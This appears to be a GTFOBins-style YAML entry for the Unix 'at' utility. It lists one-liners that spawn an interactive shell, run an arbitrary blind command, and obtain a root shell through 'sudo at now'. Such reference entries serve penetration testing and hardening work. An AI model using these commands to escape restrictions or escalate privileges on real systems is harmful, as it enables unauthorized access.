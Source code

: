 functions:
  shell:
    - code: |
        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
  command:
    - description: The invocation will be blind, but it is possible to redirect the output to a file in a readable location.
      code: |
        COMMAND=id
        echo "$COMMAND" | at now
  sudo:
    - code: |
        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
---
